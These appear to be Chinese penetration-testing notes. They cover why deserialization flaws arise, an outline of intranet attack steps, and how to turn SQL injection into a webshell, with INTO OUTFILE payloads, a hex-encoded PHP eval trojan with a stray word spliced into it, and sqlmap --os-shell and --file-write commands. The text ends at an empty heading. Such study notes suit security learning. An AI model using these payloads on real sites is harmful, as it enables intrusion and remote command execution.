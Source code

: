 #### 反序列化漏洞成因

> 在**身份验证**，**文件读写**，**数据传输**等功能处，在未对反序列化接口做访问控制，未对序列化数据做加密和签名，加密密钥使用硬编码（如Shiro 1.2.4），使用不安全的反序列化框架库（如Fastjson 1.2.24）或函数的情况下，由于序列化数据可被用户控制，攻击者可以精心构造恶意的序列化数据（执行特定代码或命令的数据）传递给应用程序，在应用程序反序列化对象时执行攻击者构造的恶意代码，达到攻击者的目的。

### 内网渗透思路

> - 代理穿透
> -  权限维持
> - 内网信息收集
> - 口令爆破
> - 凭据窃取
> - 社工
> - 横行和纵向渗透
> - 拿下域控

### SQL注入getShell

#### 条件

1. 要知道网站绝对路径，可以通过报错，phpinfo界面，404界面等一些方式知道

2. gpc没有开启，开启了单引号被转义了，语句就不能正常执行了

3. 要有file权限，默认情况下只有root有

4. 对目录要有写权限，一般image之类的存放图片的目录就有

#### 传统

> ```sql
> 1'union select 1,'<?xxxxxx;?>'INTO OUTFILE '/var/www/tmp/shell.php'#
> 
> ?id=1 INTO OUTFILE '物理路径' lines terminated by  （一句话木马hex编码）#
> 
> 0x20273c3f70687020406576616c28245f504f53545b2767275d删除293b3f3e27
> ```

`lines terminated by` 可以理解为 以每行终止的位置添加 xx 内容

#### Sqlmap写shell

写入方法和`lines terminated by`相同

> ```sql
> --os-cmd="net user" #命令执行
> 
> --os-shell #生成两个文件，tmpbshrd.php和tmpucnll.php 分别为命令执行和文件上传
> 
> --file-write "./mst/mst.txt" --file-dest "网站的绝对路径/1.php" #写本地shell
> ```

#### Log写入
